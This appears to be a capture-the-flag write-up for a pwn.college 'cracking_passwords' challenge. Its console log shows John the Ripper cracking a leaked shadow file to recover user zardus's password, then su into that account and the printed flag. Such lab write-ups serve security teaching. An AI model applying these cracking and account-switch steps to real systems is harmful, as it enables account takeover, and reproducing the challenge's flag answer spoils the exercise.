 # CTF Challenge: cracking_passwords

## Table of Content

- commands-executed: john /challenge/shadow-leak --show , su zardus
- flag :pwn.college{Ig71oiuLl-fzoMtb8Vwa4A92o17.ddTN0UDLzETN0czW}


### Output:
```console
hacker@users~cracking-passwords:~$ john /challenge/shadow-leak 
Created directory: /home/hacker/.john
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
aardvark         (zardus)
1g 0:00:00:21 100% 2/3 0.04694g/s 273.3p/s 273.3c/s 273.3C/s Johnson..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
hacker@users~cracking-passwords:~$ john /challenge/shadow-leak --show
hacker:NO PASSWORD:20000:0:99999:7:::
zardus:aardvark:20008:0:99999:7:::

2 password hashes cracked, 0 left
hacker@users~cracking-passwords:~$ su zardus
Password: 
zardus@users~cracking-passwords:/home/hacker$ /challenge/run 
Congratulations, you have become Zardus! Here is your flag:
pwn.college{Ig71oiuLl-fzoMtb8Vwa4A92o17.ddTN0UDLzETN0czW}
```
